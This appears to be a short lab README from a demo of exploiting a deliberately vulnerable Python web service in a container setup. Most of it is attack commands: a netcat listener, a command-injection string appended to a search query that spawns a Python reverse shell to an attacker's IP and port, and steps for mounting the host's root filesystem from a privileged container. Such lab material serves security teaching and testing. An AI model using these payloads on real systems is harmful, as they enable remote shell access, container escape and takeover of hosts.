 
# run netcat to capture incomming reverse shell in a new terminal
nc -lvp <port>

# Ip (docker ip if run with k3d or similar)
ifconfig | grep docker0 -A 1

Use the docker ip as the <ip>

# Test exploit commands
Replace <ip> and <port> with your own values

## The exploit, run from a vulnerable input prompt
Run this appended to a vulnerable RCE shell command like the one on vulnerable-python/search?q=

### Using Python because we know the vulnerable service is python
Url encoding makes it annoying to acomplish the desired redirection of the file descriptors when trying to spawn the reverse shell. So we use the python way because we know for a fact that it has python available as it is a python container
With portforward to vulnerable-python deployment
```bash
localhost:5000/search?q=<something>||export RHOST="<IP>";export RPORT=<PORT>;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

# Mounting rootFS in privilege container
```
cat /proc/cmdline
findfs UUID=b4622f81-d047-4c8b-86ea-a7dcfb3dd58f
>/dev/sda3
mkdir /mnt-test && mount /dev/sda3 /mnt-test
cd /mnt-test/var/lib/docker

```